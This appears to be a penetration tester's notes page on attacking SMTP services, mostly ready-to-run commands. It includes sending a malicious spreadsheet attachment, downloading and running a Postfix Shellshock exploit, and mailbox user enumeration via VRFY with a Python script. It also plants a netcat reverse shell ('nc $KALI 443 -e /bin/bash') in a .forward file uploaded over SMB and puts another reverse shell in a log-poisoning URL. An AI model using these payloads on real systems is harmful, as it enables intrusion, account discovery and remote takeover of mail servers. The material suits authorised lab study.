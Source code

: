 ### SMTP Commands

|**Command**|**Description**|
|---|---|
|`AUTH PLAIN`|AUTH is a service extension used to authenticate the client.|
|`HELO`|The client logs in with its computer name and thus starts the session.|
|`MAIL FROM`|The client names the email sender.|
|`RCPT TO`|The client names the email recipient.|
|`DATA`|The client initiates the transmission of the email.|
|`RSET`|The client aborts the initiated transmission but keeps the connection between client and server.|
|`VRFY`|The client checks if a mailbox is available for message transfer.|
|`EXPN`|The client also checks if a mailbox is available for messaging with this command.|
|`NOOP`|The client requests a response from the server to prevent disconnection due to time-out.|
|`QUIT`|The client terminates the session.|

#### send email with sendemail
```bash - kali
sendemail -f 'jonas@localhost' \
   -t 'mailadmin@localhost' \
   -s 192.168.120.132:25 \
   -u 'Your spreadsheet' \
   -m 'Here is your requested spreadsheet' \
   -a bomb.ods
```

#### Postfix SMTP Linux Shellshock RCE - USERNAME NEEDED
```bash - kali
wget https://raw.githubusercontent.com/3mrgnc3/pentest_old/master/postfix-shellshock-nc.py
```

[[1._rlwrap]]

```bash - kali
python postfix-shellshock-nc.py $TARGET $USER $KALI 443
```

#### User enumeration tool
```bash - kali
smtp-user-enum -M VRFY -U /usr/share/metasploit-framework/data/wordlists/unix_users.txt -t $TARGET | grep exists | awk '{print $2}' > users
```

#### nmap
```bash - kali
nmap --script smtp-commands.nse -pT:25 $TARGET
```

```bash 
sudo nmap $TARGET -p25 --script smtp-open-relay -v
```


#### Mail forward RCE
Found a .forward file in user's directory by SMB.

`/usr/bin/procmail -f-`

```bash - kali
echo "|nc $KALI 443 -e /bin/bash" > .forward
```

![[rlwrap]]

```bash - kali
smbclient \\\\$TARGET\\<SHARE> -U "<USER>%<PASSWORD>"
```

```bash - kali
put .forward
```

```bash - kali
exit
```

#### Send mail with netcat
```bash - kali
nc $TARGET 25
```

```bash - kali
HELO hacker
```

```bash - kali
mail from:<USER@localhost>
```
OR
```bash - kali
mail from:hacker@example.org
```

```bash - kali
rcpt to:<USER@HOST>
```
EXAMPLE : `RCPT TO:lhale@victim`

```bash - kali
DATA
```

Insert email body

```bash - kali
.
```

```bash - kali
QUIT
```

####  Log Poisoning 
symfonos vulnhub - https://0xw0lf.github.io/2020/03/08/Vulnhub-Symfonos1/
LFI to RCE - https://liberty-shell.com/sec/2018/05/19/poisoning/

>......campaign/count_of_send.php?pl=/var/mail/helios&cmd=nc%20-e%20/bin/bash%20$KALI%20443


#### User verification script

Usage 
```bash
python3 vrfy.py userlist.txt output.txt
```

```python 3
import socket
import sys

if len(sys.argv) != 3:
    print("Usage: vrfy.py <userlist.txt> <output.txt>")
    sys.exit(0)

# Input and output file names
user_list_file = sys.argv[1]
output_file = sys.argv[2]

# Read the list of users from the file
try:
    with open(user_list_file, 'r') as file:
        users = file.readlines()
except FileNotFoundError:
    print(f"Error: File '{user_list_file}' not found.")
    sys.exit(1)

# Open the output file in write mode
try:
    with open(output_file, 'w') as outfile:
        for user in users:
            user = user.strip()  # Remove any leading/trailing whitespace or newline characters
            if user:  # Skip empty lines
                try:
                    # Create a new socket for each user
                    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                    s.connect(("10.129.16.13", 25))

                    # Receive the banner
                    banner = s.recv(1024)
                    outfile.write(f"Banner: {banner.decode('utf-8')}\n")  # Write banner to output file

                    # Send VRFY command
                    s.send(('VRFY ' + user + '\r\n').encode('utf-8'))  # Encode string to bytes
                    result = s.recv(1024)
                    result_decoded = result.decode('utf-8')
                    print(f"VRFY {user}: {result_decoded}")  # Print result
                    outfile.write(f"VRFY {user}: {result_decoded}\n")  # Write result to output file

                    # Close the socket
                    s.close()

                except Exception as e:
                    error_message = f"Error verifying {user}: {e}"
                    print(error_message)  # Print error
                    outfile.write(error_message + "\n")  # Write error to output file

except Exception as e:
    print(f"Error writing to output file '{output_file}': {e}")
    sys.exit(1)
```
